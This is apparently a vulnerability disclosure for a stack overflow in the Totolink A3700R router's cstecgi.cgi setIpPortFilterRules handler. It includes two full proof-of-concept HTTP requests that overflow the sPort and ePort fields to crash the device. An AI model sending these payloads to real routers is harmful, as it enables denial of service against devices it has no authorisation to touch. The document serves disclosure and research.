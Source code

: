
### **Overview**：
Affected Device: Totolink A3700R 

Affected Firmware Version: V9.1.2u.6165_20211012 

Vulnerability: Stack overflow leading to denial of service and privilege escalation

Firmware Download Link: [Firmware Download Link](https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip) 

Report Email: [zwx918569613@gmail.com](mailto:zwx918569613@gmail.com)


![](Pasted%20image%2020231022165035.png)

### **Vulnerability**：

This vulnerability is located in the `cstecgi.cgi` file within the `FUN_0041f884` function, with the alias `setIpPortFilterRules`.

![](Pasted%20image%2020231023212707.png)


`cstecgi.cgi` processes different function interfaces based on the value of `topicurl`.
It does not impose length restrictions on the incoming parameter `sPort` and `ePort`. The `sprintf` function is used to format and concatenate the parameter `sPort`  and  `ePort`  into the `acStack_70` variable, which results in a stack overflow vulnerability.


### **POC**:

To reproduce the vulnerability, you can use a real device or simulate it using QEMU. The following POC can be used to exploit it:


~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 586
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{"topicurl": "setting/setIpPortFilterRules","addEffect":"1","sPort": "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}

~~~

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 586
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{"topicurl": "setting/setIpPortFilterRules","addEffect":"1","ePort": "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}

~~~

### **Impact**：

![](Pasted%20image%2020231023212539.png)

![](Pasted%20image%2020231023213646.png)